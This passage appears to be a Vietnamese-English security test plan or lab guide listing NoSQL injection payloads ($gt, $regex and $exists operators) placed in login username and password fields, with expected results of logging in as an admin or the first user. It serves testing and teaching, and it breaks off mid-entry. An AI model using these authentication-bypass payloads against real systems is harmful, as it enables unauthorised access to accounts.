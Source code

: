 **Payload:**
- Username: `{"$gt": ""}`
- Password: `{"$gt": ""}`

**Expected Result:**
- ✅ Login thành công với admin account

**Why it works:**
```javascript
// Empty string "" là nhỏ nhất
// Tất cả strings đều > ""
// → Điều kiện luôn đúng
```

---

### Test 1.3: $regex Wildcard Injection

**Payload:**
- Username: `{"$regex": ".*"}`
- Password: `{"$regex": ".*"}`

**Expected Result:**
- ✅ Match với user đầu tiên

---

### Test 1.4: $exists Operator

**Payload:**
- Username: `{"$exists": true}`
- Password: `{"$exists": true}`

**Expected Result:**
- ✅